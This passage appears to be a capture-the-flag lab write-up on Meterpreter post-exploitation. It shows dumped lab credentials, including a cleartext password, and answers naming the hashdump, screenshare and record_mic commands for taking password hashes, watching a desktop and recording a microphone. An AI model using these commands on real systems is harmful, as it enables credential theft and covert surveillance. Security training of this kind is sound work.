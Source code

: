 ```
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```
**Answer**: `Password01!`
### What command allows us to dump all of the password hashes stored on the system?
```
meterpreter > help
Priv: Password database Commands
================================

    Command       Description
    -------       -----------
    hashdump      Dumps the contents of the SAM database
```
## Post-Exploitation
**Answer**: `hashdump`
### what command allows us to watch the remote user's desktop in real time?
```
meterpreter > help
Stdapi: User interface Commands
===============================

    Command        Description
    -------        -----------
    screenshare    Watch the remote user desktop in real time
```
**Answer**: `screenshare`
### How about if we wanted to record from a microphone attached to the system?
```
meterpreter > help
Stdapi: Webcam Commands
=======================

    Command        Description
    -------        -----------
    record_mic     Record audio from the default microphone for X seconds
```
**Answer**: `record_mic`